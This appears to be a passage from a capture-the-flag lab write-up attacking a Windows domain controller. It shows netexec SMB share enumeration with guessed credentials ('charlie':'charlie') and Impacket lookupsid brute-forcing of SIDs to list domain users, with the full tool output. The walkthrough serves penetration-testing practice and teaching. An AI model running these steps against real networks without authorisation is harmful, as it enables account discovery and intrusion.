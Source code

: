 We successfully obtain credentials for `charlie` : `charlie`.

# SMB with user charlie

```bash
netexec smb 10.0.4.18 -u 'charlie' -p 'charlie'  --shares
```
Info:
```
SMB         10.0.4.18       445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:SOUPEDECODE.LOCAL) (signing:True) (SMBv1:False) 
SMB         10.0.4.18       445    DC01             [+] SOUPEDECODE.LOCAL\charlie:charlie 
SMB         10.0.4.18       445    DC01             [*] Enumerated shares
SMB         10.0.4.18       445    DC01             Share           Permissions     Remark
SMB         10.0.4.18       445    DC01             -----           -----------     ------
SMB         10.0.4.18       445    DC01             ADMIN$                          Remote Admin
SMB         10.0.4.18       445    DC01             C$                              Default share
SMB         10.0.4.18       445    DC01             IPC$            READ            Remote IPC
SMB         10.0.4.18       445    DC01             NETLOGON        READ            Logon server share 
SMB         10.0.4.18       445    DC01             SYSVOL          READ            Logon server share
```

Nothing of interest within the SMB resources.

# Impacket lookupsid
Now that we have valid credentials, we use Impacket’s `lookupsid.py` to enumerate all users in the system.

```bash
impacket-lookupsid SOUPEDECODE.LOCAL/charlie@10.0.4.18 > user.txt
```

Info:
```
[*] Brute forcing SIDs at 10.0.4.18
[*] StringBinding ncacn_np:10.0.4.18[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-2986980474-46765180-2505414164
498: SOUPEDECODE\Enterprise Read-only Domain Controllers (SidTypeGroup)
500: SOUPEDECODE\Administrator (SidTypeUser)
501: SOUPEDECODE\Guest (SidTypeUser)
502: SOUPEDECODE\krbtgt (SidTypeUser)
512: SOUPEDECODE\Domain Admins (SidTypeGroup)
513: SOUPEDECODE\Domain Users (SidTypeGroup)
514: SOUPEDECODE\Domain Guests (SidTypeGroup)
515: SOUPEDECODE\Domain Computers (SidTypeGroup)
516: SOUPEDECODE\Domain Controllers (SidTypeGroup)
517: SOUPEDECODE\Cert Publishers (SidTypeAlias)
518: SOUPEDECODE\Schema Admins (SidTypeGroup)
519: SOUPEDECODE\Enterprise Admins (SidTypeGroup)
520: SOUPEDECODE\Group Policy Creator Owners (SidTypeGroup)
521: SOUPEDECODE\Read-only Domain Controllers (SidTypeGroup)
522: SOUPEDECODE\Cloneable Domain Controllers (SidTypeGroup)
525: SOUPEDECODE\Protected Users (SidTypeGroup)
526: SOUPEDECODE\Key Admins (SidTypeGroup)
527: SOUPEDECODE\Enterprise Key Admins (SidTypeGroup)
553: SOUPEDECODE\RAS and IAS Servers (SidTypeAlias)
571: SOUPEDECODE\Allowed RODC Password Replication Group (SidTypeAlias)
572: SOUPEDECODE\Denied RODC Password Replication Group (SidTypeAlias)
1000: SOUPEDECODE\DC01$ (SidTypeUser)
1101: SOUPEDECODE\DnsAdmins (SidTypeAlias)
1102: SOUPEDECODE\DnsUpdateProxy (SidTypeGroup)
1103: SOUPEDECODE\bmark0 (SidTypeUser)
```